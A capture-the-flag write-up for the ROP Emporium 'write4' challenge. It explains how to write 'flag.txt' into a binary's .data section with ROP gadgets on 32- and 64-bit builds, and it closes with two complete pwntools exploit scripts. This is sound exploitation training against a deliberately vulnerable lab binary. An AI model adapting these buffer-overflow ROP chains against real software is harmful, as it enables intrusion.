

ROP Emporium - write4
Basic setup:
- ROPEmporium x86 & x86_64 binaries
- Ubuntu lab machine
- GDB & pwndbg
- pwntools
Link to challenge
https://ropemporium.com/challenge/write4.html
The 32 bit solve
The aim of this challenge is to write the string “flag.txt” to an area of free memory so that the imported function print_file can be called with this argument which would print the flag. For this we need to utilise multiple ROP gadgets to build a ROP chain which can do this for us.
The first step is to run checksec in order to find protections. Like usual, NX in enabled and partial RELRO exists so a ROP chain is required.
Using the rabin2 command we can see the strings with the -z flag as well as the imported functions with the -i flag. Here we can see the address of the print_file function which we will need to call. However, nothing else of use seeems to be present and we will need to utilise writeable memory locations to store strings.
The rabin2 command can then be used with the -S flag to list all the sections with addresses, virtual size and permissions. We need a writeable area of memory to store our flag.txt string with atleast 0x8 bytes of space so that the string will fit. We have two options here:
- the .got.plt section with 0x18 bytes of space
- the .data section with 0x8 bytes of space
After looking at both the .data section and .got.plt section within Ghidra, we can see that the .data section has 0x8 bytes worth of free, unfilled space whereas the .got.plt section has data within it. Therefore, we can copy down the .data address as our string storage point for our ROP chain.
Opening the binary in pwndbg, we can use info functions to list all the functions present in the binary. We can see similar functions from previous challenges and we can look at these further in Ghidra to see if there is anything that may help us exploit this binary.
As we can see, the binary is very simple and we require a way to call this function with the “flag.txt” string instead of “nonexistent”.

Next, the offset needs to be found for the buffer overflow. We can find this using cyclic 100 and printing this value into the binary input to see where it crashes.
As the EIP register contains “laaa”, we can use the command cyclic -l laaa to find the offset at which the buffer overflow occurs. This is 44 bytes.
Using the disas command we can dissassemble the usefulFunction function to find the address of the print_file function. Using just the print_file function, we will require a junk return address included within our payload to impersonate the return address being set by the call instruction. We do not have to include this junk address if we use the address for the entire call print_file instruction on the left.
Looking at the usefulGadgets function, we can see a gadget - mov DWORD PTR [edi],ebp which we can use to move the value in ebp into the address at edi. This is useful as we can use this to move the address of the .data section into edi and then move the string “flag.txt” into ebp. This will then write the string into the .data section. We can then call the print_file instruction with the address of the .data section as the argument to print the flag. This is the goal written in the description for this challenge.
We then need a way to populate ebp and edi registers so that the mov gadget will work. For this we need to search for a gadget. We can use the ROPgadget command to search for a gadget that will pop ebp and edi into the registers and then return. We can see that the gadget pop edi; pop ebp; ret exists so we can copy down its address.
Now that we have all the building blocks to solve this challenge, we need to put them in the correct order so that our payload does as we wish. The order is shown above where we first populate the memory location of the .data section with the string “flag” and then repeat what we did for the remaining 4 bytes of the string - “.txt”. Keep in mind, we need to do this string separately because 32 bit architecture does things in blocks of 4 bytes. Additionally, each string will need to be reversed within our ROP chain as when writing to memory, the bytes are written in reverse order.

Instead of manually writing out addresses, we can put this into a python3 script using pwntools to solve the challenge. The script used is displayed at the end of the post as usual.
The 64 bit solve
The 64 bit architecture handles arguments for calls differently to 32 bit so our exploit will look slightly different. We also do not need to handle the string in blocks of 4 bytes as 64 bit architecture increases this to 8 bytes.
Looking at the usefulFunction function within the 64 bit binary, we can see the address for the print_file function we need to call.
Looking at the usefulGadgets function, we can see a different gadget to before - mov QWORD PTR [r14],r15 ; ret. This is useful as it tells us that we can move a quad word - 16 bytes worth of string into the address held in the r14 register. We can copy down the address for this.
In order to populate the r14 and r15 registers, we need to search for a gadget which will pop r14 and r15 into the registers and then return. We can use the ROPgadget command to search for a gadget that will do this. We can see that the gadget pop r14; pop r15; ret exists so we can copy down its address.
We need to find the .data section which we know is writable and can store our 0x8 bytes of stirng. Within pwndbg, the command info target to list all the sections of the binary. We find the address of the .data section and the address can be noted.
64bit: 
As seen before in previous challenges, the 64 bit architecture requires the arguments to be passed in the registers seen above. This means that we need to use a ROP gadget which is pop rdi; ret to populate the rdi register with the address of the .data section so that we can use the print_file function and print the flag. We can use the ROPgadget command to search for a gadget that will do this shown above. We can see that the gadget pop rdi; ret exists so we can copy down its address.
Before we create our exploit, we need an offset. We can do this via the cyclic 100 command and then copying the pattern into the input field of the running program. The first 8 bytes of the RSP register can then be used to find the offset to make the buffer overflow successful.
We can use the command cyclic -l faaaaaaa to find the offset. We can see that the offset is 40 bytes.
Finally, the order for the exploit can be created. Firstly, we need to fill the offset with junk ‘A’ values. We then want to populate the .data section with our string. We pop the two values for the .data section address and flag.txt string from the stack into the r14 and r15 registers accordingly. The mov gadget can then be used to write this string to the .data section. The last 3 instructions are in charge of printing the flag where we will first populate the rdi register to set an argument for the print_file function and then we call the print_file function.
Instead of manually writing out addresses, we can put this into a python3 script using pwntools to solve the challenge. The script used is displayed at the end of the post as usual.
The 32 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './write432'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
# Address needed to put parameters in registers
datasection = 0x0804a018
mov_gadget = 0x08048543
pop_gadget = 0x080485aa
flagstr = 0x67616C66
txtstr = 0x7478742E # writing text to memory requires little endian so it can be converted to big
print_file = 0x080483d0
junkaddr = 0x61616161
# junkaddr is needed as we are calling the function print_file, we don't need this
# if we use the address of "call print_file@plt" instead of "print_file@plt" as
# the functionality of call is then done for us (writing return address to stack)
call_print_file = 0x08048538
# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov DWORD[edi], ebp", mov_gadget)
info("%#x pop edi ; pop ebp ; ret", pop_gadget)
info("%#x flag string", flagstr)
info("%#x .txt string", txtstr)
info("%#x print_file function", print_file)
info("%#x call print_file", call_print_file)
info("%#x random junk address", junkaddr)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))
##### CRAFTING PAYLOAD #####
payload = b""
payload += b'A' * eip_offset
payload += p32(pop_gadget)
payload += p32(datasection)
payload += p32(flagstr)
payload += p32(mov_gadget)
payload += p32(pop_gadget)
payload += p32(datasection + 0x4) # +4 so that we don't overwrite our "flag" string
payload += p32(txtstr)
payload += p32(mov_gadget)
payload += p32(print_file)
payload += p32(junkaddr)
payload += p32(datasection)
print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####
The 64 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './write4'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
call_print_file = 0x0000000000400620
mov_qword_gadget = 0x0000000000400628
pop_rdi_gadget = 0x0000000000400693
pop_r14_gadget = 0x0000000000400690
datasection = 0x0000000000601028
flagtxtstr = 0x7478742E67616C66
# Print out the target address
info("%#x call print_file", call_print_file)
info("%#x mov QWORD PTR [r14],r15", mov_qword_gadget)
info("%#x pop rdi ; ret", pop_rdi_gadget)
info("%#x pop 14 ; pop r15 ; ret", pop_r14_gadget)
info("%#x writable .data section", datasection)
info("%#x flag.txt string", flagtxtstr)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
stack = core.rsp
info("%#x stack", stack)
# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)
##### CRAFTING PAYLOAD #####
# Note that we have to call pop_rdi gadget here
payload = b""
payload += b'A' * offset
payload += p64(pop_r14_gadget)
payload += p64(datasection)
payload += p64(flagtxtstr)
payload += p64(mov_qword_gadget)
payload += p64(pop_rdi_gadget)
payload += p64(datasection)
payload += p64(call_print_file)
print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('> ', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####